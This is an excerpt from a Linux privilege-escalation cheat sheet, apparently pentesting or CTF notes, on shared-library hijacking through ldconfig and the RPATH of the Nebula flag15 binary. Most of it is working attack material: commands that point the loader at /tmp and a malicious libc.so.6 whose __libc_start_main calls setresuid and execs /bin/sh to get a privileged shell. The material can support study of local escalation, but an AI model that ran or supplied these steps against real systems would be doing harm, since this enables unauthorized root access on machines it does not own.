 ### ldconfig

Identify shared libraries with `ldd`

```powershell
$ ldd /opt/binary
    linux-vdso.so.1 (0x00007ffe961cd000)
    vulnlib.so.8 => /usr/lib/vulnlib.so.8 (0x00007fa55e55a000)
    /lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x00007fa55e6c8000)        
```

Create a library in `/tmp` and activate the path.

```powershell
gcc –Wall –fPIC –shared –o vulnlib.so /tmp/vulnlib.c
echo "/tmp/" > /etc/ld.so.conf.d/exploit.conf && ldconfig -l /tmp/vulnlib.so
/opt/binary
```

### RPATH

```powershell
level15@nebula:/home/flag15$ readelf -d flag15 | egrep "NEEDED|RPATH"
 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]

level15@nebula:/home/flag15$ ldd ./flag15 
 linux-gate.so.1 =>  (0x0068c000)
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x005bb000)
```

By copying the lib into `/var/tmp/flag15/` it will be used by the program in this place as specified in the `RPATH` variable.

```powershell
level15@nebula:/home/flag15$ cp /lib/i386-linux-gnu/libc.so.6 /var/tmp/flag15/

level15@nebula:/home/flag15$ ldd ./flag15 
 linux-gate.so.1 =>  (0x005b0000)
 libc.so.6 => /var/tmp/flag15/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x00737000)
```

Then create an evil library in `/var/tmp` with `gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic exploit.c -o libc.so.6`

```powershell
#include<stdlib.h>
#define SHELL "/bin/sh"

int __libc_start_main(int (*main) (int, char **, char **), int argc, char ** ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{
 char *file = SHELL;
 char *argv[] = {SHELL,0};
 setresuid(geteuid(),geteuid(), geteuid());
 execve(file,argv,0);
}
```
